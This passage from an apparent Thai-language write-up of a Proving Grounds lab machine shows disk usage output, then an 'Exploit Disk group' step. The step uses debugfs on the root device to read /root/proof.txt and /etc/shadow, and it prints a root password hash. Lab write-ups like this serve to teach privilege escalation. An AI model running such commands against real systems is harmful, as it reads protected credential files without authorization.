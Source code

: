 ```bash


dora@dora:~$ df -h
df -h
Filesystem                         Size  Used Avail Use% Mounted on
/dev/mapper/ubuntu--vg-ubuntu--lv  9.8G  5.1G  4.2G  55% /
udev                               947M     0  947M   0% /dev
tmpfs                              992M     0  992M   0% /dev/shm
tmpfs                              199M  1.2M  198M   1% /run
tmpfs                              5.0M     0  5.0M   0% /run/lock
tmpfs                              992M     0  992M   0% /sys/fs/cgroup
/dev/loop0                          62M   62M     0 100% /snap/core20/1611
/dev/loop4                          68M   68M     0 100% /snap/lxd/22753
/dev/loop2                          50M   50M     0 100% /snap/snapd/18596
/dev/loop3                          92M   92M     0 100% /snap/lxd/24061
/dev/loop1                          64M   64M     0 100% /snap/core20/1852
/dev/sda2                          1.7G  209M  1.4G  13% /boot
tmpfs                              199M     0  199M   0% /run/user/1000

```

จากข้อมูลข้างต้นจะเห้นว่ามี /dev หลายชุดที่อยู่ภายใต้กลุ่ม disk ที่สามารถจัดการได้

## Exploit Disk group 

```bash
debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
cd /root
cat proof.txt 
cat /etc/shadow 
```

หากตรวจสอบจะพบว่ามี password ของ root เป็นค่าดังต่อไปนี้ 
```bash
root:$6$AIWcIr8PEVxEWgv1$3mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC.:19453:0:99999:7:::
```

![[Challenge/ProvingGround/Extplorer/IMG/011.png]]
# PWN